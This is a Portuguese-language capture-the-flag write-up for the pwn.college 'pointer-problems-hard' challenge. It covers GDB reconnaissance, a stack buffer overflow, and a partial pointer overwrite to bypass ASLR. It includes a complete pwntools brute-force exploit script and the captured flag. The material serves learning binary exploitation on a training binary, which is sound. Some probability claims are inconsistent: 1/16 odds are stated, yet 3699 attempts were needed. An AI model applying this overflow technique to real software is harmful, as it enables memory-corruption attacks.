









# pwn.college — Pointer Problems Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Buffer overflow · Pointer overwrite · ASLR bypass via partial overwrite · Análise de registradores no GDB · Breakpoints em `open`/`read`/`printf` · Brute-force de nibble com loop

---

## Descrição do Desafio

O desafio `pointer-problems-hard` é a versão sem informações do `pointer-problems-easy`. A vulnerabilidade central é idêntica: o programa mantém um ponteiro `char*` na stack que é passado ao `printf` — e um buffer overflow permite sobrescrever esse ponteiro para fazê-lo apontar para a flag. A diferença é que **o binário não imprime mais nada sobre o layout de memória**: nenhum endereço de buffer, nenhum endereço de flag, nenhum offset. Toda a análise precisa ser feita via GDB.

Além disso, o ASLR está habilitado, o que significa que os endereços mudam a cada execução — tornando inviável qualquer abordagem estática. A solução encontrada foi um **partial overwrite**: sobrescrever apenas os dois bytes menos significativos do ponteiro com os bytes fixos do endereço da flag dentro da seção BSS, e usar um loop de brute-force para tentar repetidamente até que o ASLR alinhe os bytes não sobrescritos corretamente.

---

## Reconhecimento Inicial — Comportamento do Binário

Ao rodar o binário diretamente, ele informa que a flag será carregada na seção BSS, pede um payload de até 50 bytes, lê o input, e imprime uma string via `printf`. Por padrão, o ponteiro aponta para `"This is a string in the bss!"` — que também está na BSS. O objetivo é sobrescrevê-lo para que aponte para a flag (que também está na BSS).



```
In this level, the flag will be loaded into the bss section of memory.
However, at no point will this program actually print the buffer storing the flag.
Reading flag into memory...
Payload size: 50
Send your payload (up to 50 bytes)!
AAAAAAAAAAAAAAAAAAAA
The string on the stack is: This is a string in the bss!
Goodbye!
```

---

## Análise com GDB — Mapeando a Memória

Como o binário não fornece nenhuma informação sobre o layout de memória, foi necessário usar o GDB para identificar:

1. O endereço onde a flag é armazenada
2. O endereço do buffer de input do payload
3. O endereço do ponteiro que o `printf` usa para imprimir a string

Todas as informações foram anotadas em um arquivo `info.txt` durante a sessão de análise.

### Passo 1 — Endereço da Flag (via `read` após `open`)

O programa abre o arquivo da flag com `open` e lê seu conteúdo com `read` antes de pedir o payload. Com um breakpoint no `read` logo após o `open`, é possível inspecionar `$rsi` — que aponta para o buffer de destino onde os bytes lidos serão armazenados, ou seja, onde a flag ficará em memória.





```
rdi    0xffffffff         (fd retornado pelo open)
rsi    0x5d1d50dcd040     (endereço onde a flag será armazenada — BSS)
rdx    0x100              (256 bytes — tamanho máximo lido)
```

O `$rsi` no momento desse `read` aponta para `0x5d1d50dcd040` — o endereço da flag na BSS.

### Passo 2 — Endereço do Buffer de Input (via `read` do stdin)

Com um breakpoint no segundo `read` — aquele que lê o payload do usuário —, o `$rsi` agora aponta para o início do buffer de input na stack.



```
rdi    0x0                (stdin)
rsi    0x7ffc8eb793b0     (início do buffer de input na stack)
rdx    0x32               (50 — limite de bytes)
```

O buffer de input começa em `0x7ffc8eb793b0`.

### Passo 3 — Endereço do Ponteiro (via `printf`)

Para encontrar onde na stack está o ponteiro que o `printf` usa, foi colocado um breakpoint logo antes do `printf`. Inspecionando os registradores, o `$rsi` contém o endereço da string que será impressa — nesse caso, `"This is a string in the bss!"`.





```
rdi    0x5d1d50dcb128     → "The string on the stack is: %s\n"
rsi    0x5d1d50dcd1b6     → <bssdata+374>: "This is a string in the bss!"
```

O `$rsi` do `printf` vem de `[rbp-0x18]`. Isso significa que, em algum lugar da stack, o valor `0x5d1d50dcd1b6` (o ponteiro para a string padrão) está armazenado — e é **esse** valor que precisamos sobrescrever com o endereço da flag.

### Consolidando as Informações



```
flag está em 0x5d1d50dcd040         - vi pelo rsi da função read após o open
input buffer está em 0x7ffc8eb793b0 - vi pelo rsi da função read do stdin
pointer na stack para a string impressa está em 0x7ffc8eb793e8 - vi pelo ponteiro salvo em rbp-0x18
offset do início do input buffer até o ponteiro: 56 bytes
```

O offset entre o início do buffer e o ponteiro foi calculado subtraindo os dois endereços:

```
0x7ffc8eb793e8 - 0x7ffc8eb793b0 = 0x38 = 56 bytes
```

---

## A Vulnerabilidade — Por que Partial Overwrite?

Com ASLR habilitado, os endereços da BSS mudam a cada execução — mas apenas nos **bytes mais significativos**. Os dois bytes menos significativos (os 12 bits inferiores, mais precisamente) permanecem fixos, pois o ASLR alinha os mapeamentos em páginas de 4KB.

Observando os endereços obtidos no GDB:

- **Flag na BSS:** `0x5d1d50dcd040`
- **Ponteiro padrão (string do bss):** `0x5d1d50dcd1b6`

Os dois bytes menos significativos do endereço da flag são `\x40\xd0`. Se sobrescrevermos apenas esses dois bytes do ponteiro, não precisamos adivinhar os 6 bytes superiores — só precisamos que o ASLR coloque o mapeamento da BSS no offset correto, o que acontece com probabilidade de **1/16** (um nibble aleatório).

A abordagem é rodar o exploit em loop até acertar.

---

## Montando o Exploit — Brute-force com Partial Overwrite



```python
from pwn import *

PATH = '/challenge/pointer-problems-hard'

# Desativa as mensagens de log repetitivas do pwntools
context.log_level = 'error'

tentativas = 0

while True:
    tentativas += 1
    print(f"Tentativa número: {tentativas}", end='\r')

    try:
        p = process(PATH)

        p.sendline(b"64")

        # 56 bytes de padding + 2 bytes menos significativos do endereço da flag
        payload = b"A" * 56 + b"\x40\xd0"
        p.sendline(payload)

        # Aguarda a resposta com timeout curto para não travar se o endereço errou
        resposta = p.recvall(timeout=0.5)

        if b"pwn.college{" in resposta:
            print(f"\n[+] Sucesso após {tentativas} tentativas!")
            print(resposta.decode('utf-8', errors='ignore'))
            break

    except (EOFError, PwnlibException):
        # Programa crashou — endereço errado devido ao ASLR — continua o loop
        pass
    finally:
        # Garante que o processo anterior seja fechado antes de abrir um novo
        try:
            p.close()
        except:
            pass
```

### Por que `b"\x40\xd0"` e não o endereço completo?

O endereço completo da flag é `0x5d1d50dcd040`. Em little-endian, os dois bytes menos significativos são `\x40\xd0`. Sobrescrevendo apenas esses dois bytes do ponteiro (que originalmente apontava para `0x5d1d50dcd1b6`), os 6 bytes superiores permanecem intactos — e como a BSS inteira está no mesmo mapeamento, o endereço resultante `0x5d1d50dcd040` é válido quando o ASLR aleatoriza o offset correto.

A cada execução, o ASLR sorteia um nibble (4 bits) diferente para o byte que difere (`0xd0` vs `0xd1`). A probabilidade de acerto é 1/16 — em média, o exploit acerta em 16 tentativas, mas pode variar. Nessa execução, foram necessárias **3699 tentativas**.

---

## Resultado Final



```
Tentativa número: 3699
[+] Sucesso após 3699 tentativas!
In this level, the flag will be loaded into the bss section of memory.
However, at no point will this program actually print the buffer storing the flag.
Reading flag into memory...
Payload size: Send your payload (up to 64 bytes)!
The string on the stack is: pwn.college{wt7knmev4eIaxWJHCbQk6VJ-8Ut.01M4cDOxwCOzYTNxEzW}

Goodbye!
```

---

## Resumo do Fluxo de Exploração

```
1. GDB → break no read após open → rsi = endereço da flag na BSS (0x...d040)
2. GDB → break no read do stdin  → rsi = início do buffer de input na stack
3. GDB → break no printf         → rsi vem de [rbp-0x18] → ponteiro na stack
4. offset buffer → ponteiro: 0x7ffc8eb793e8 - 0x7ffc8eb793b0 = 56 bytes
5. ASLR impede endereço fixo → partial overwrite: só os 2 bytes inferiores (\x40\xd0)
6. Loop de brute-force: relança o processo até o ASLR alinhar o mapeamento correto
7. recvall detecta "pwn.college{" na resposta → flag obtida após N tentativas
```

---

## Comparação entre Easy e Hard

| | pointer-problems-easy | pointer-problems-hard |
|---|---|---|
| Layout de memória impresso | ✅ Sim | ❌ Não |
| Endereço da flag fornecido | ✅ Sim (muda por ASLR) | ❌ Não |
| Como obter o endereço da flag | `recvuntil` em tempo de execução | GDB: break no `read` após `open` |
| Como obter o offset | Fornecido pelo binário (80 bytes) | GDB: subtração de endereços (56 bytes) |
| Bypass do ASLR | Leitura dinâmica do endereço | Partial overwrite + brute-force |
| Número de execuções necessárias | 1 | ~16 (até milhares, dependendo da sorte) |
| Limite de payload | Sem restrição | 50 bytes (suficiente para o exploit) |
